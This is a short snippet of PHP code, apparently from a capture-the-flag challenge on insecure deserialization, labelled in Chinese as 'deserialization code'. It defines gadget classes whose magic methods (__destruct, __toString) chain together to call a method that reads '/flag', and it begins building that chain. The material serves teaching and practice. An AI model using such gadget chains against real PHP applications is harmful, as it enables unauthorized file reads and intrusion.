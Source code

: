 反序列化代码：

 ``` php
<?php

class A {

  public $key;

  public function readflag() {

     if ($this->key === "\0key\0") {

       readfile('/flag');

     }

  }

}

 

class B {

  public $b;

  public function __toString() {

     return ($this->b)();

  }

}

 

class C {

  public $s;

  public $str;

  public function __construct($s) {

     $this->s = $s;

  }

  public function __destruct() {

     echo $this->str;

  }

}

 

$key = new A();

$key->key = "\0key\0";

$f = array(unserialize(serialize($key)), 'readflag');
 ```